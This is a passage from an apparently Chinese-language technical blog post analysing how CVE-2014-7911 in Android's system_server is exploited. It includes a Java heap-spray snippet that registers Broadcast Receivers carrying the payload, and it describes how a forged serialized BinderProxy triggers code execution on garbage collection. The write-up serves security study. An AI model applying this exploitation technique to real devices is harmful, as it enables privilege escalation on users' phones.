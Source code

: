 
#### 0x2 堆喷射
为了使设置的mOrgue能够落入payload中，采取了堆喷射的手段来布置payload。POC中采取的是动态注册Broadcast Receiver，并将payload放入permission字符串中:

{% highlight java %}
    void heap_spary_ex(String str){
        str = str + generateString(16);
        try{
            IntentFilter inFilter = new IntentFilter();

            inFilter.addAction(generateString(16));
            
            this.registerReceiver(receiver, inFilter,str,null);
            //LocationManager lm = (LocationManager)getSystemService(LOCATION_SERVICE);
            //lm.addTestProvider(str.toString(), false, false, false, false, false, false, false, 1, 1);
        } catch(Exception e) {
            //throw new RuntimeException(e);
            //Log.i("7911", "exception" );
            e.printStackTrace();
    }
{% endhighlight %}

注册的Receiver会保存在system_server的堆上。通过大量注册这些Receiver，我们可以在堆上布置大量的payload，以待跳入。

#### 0x3 system_server
为什么注册Receiver，就可以在system_server的堆上布置payload呢？为此，需要简要介绍下system_server。

system_server是一个非常重要的进程，它包括了大量系统服务。我们可以通过`ps -t | grep <system_server_pid>`来查看system_server所包含的线程，示例如下:

![]({{ site.url }}/img/in-posts/cve-2014-7911/system_server.png){:.myImage}

可以看到，许多重要的服务，如GC, Activity Manager, Windows Manager等，都是system_server的线程。另一方面我们知道，同一进程的不同线程，是拥有各自的栈，但是互相共享text和data，所以堆也是可以共享的。所以，之前研究堆溢出时，可以看到malloc是有线程安全版本的，以保证不同线程分配堆时不会发生冲突。

于是，我们注册Receiver时，最终会调用`ActivityManagerService`中的方法`registerReceiver`，定义在文件`/frameworks/base/services/java/com/android/server/am/ActivityManagerService.java`中。其中会创建新的BroadcastFilter对象，这便是保存在堆上的：

{% highlight java %}
    public Intent registerReceiver(IApplicationThread caller, String callerPackage,
            IIntentReceiver receiver, IntentFilter filter, String permission, int userId) {
            ...
            BroadcastFilter bf = new BroadcastFilter(filter, rl, callerPackage,
                    permission, callingUid, userId);
{% endhighlight %}

所以通过注册Receiver的方式，我们在Activity Manager、即system_server的堆上布置了payload。

#### 0x4 触发漏洞
当堆上的payload布置好后，我们便需要让system_server触发反序列化了。为此，我们将伪造的序列化字符串发送至system_server。system_server在将其反序列化后，得到伪造的`BinderProxy`。随后，在该对象被回收时，触发`finalize()`方法，进行访问我们设置的`mOrgue`，最后跳到设置好的的堆上，完成代码执行。

---

## 参考资料
